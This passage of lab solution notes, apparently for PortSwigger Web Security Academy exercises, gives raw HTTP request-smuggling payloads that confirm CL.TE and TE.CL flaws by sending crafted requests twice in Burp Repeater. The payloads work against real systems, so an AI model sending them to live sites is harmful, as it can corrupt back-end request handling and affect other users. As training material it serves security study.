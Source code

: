 The second response should say: ``Unrecognized method GPOST``. 

## HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses


### Quick Solution
In this case the CL.TE vulnerability must be exploited via differential response. Payload in the next paragraph.


### Solution
Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
The second request should receive an HTTP 404 response.

## HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
Reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses


### Quick Solution
In this case the TE.CL vulnerability must be exploited via differential response. Payload in the next paragraph.


### Solution
Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
The second request should receive an HTTP 404 response.
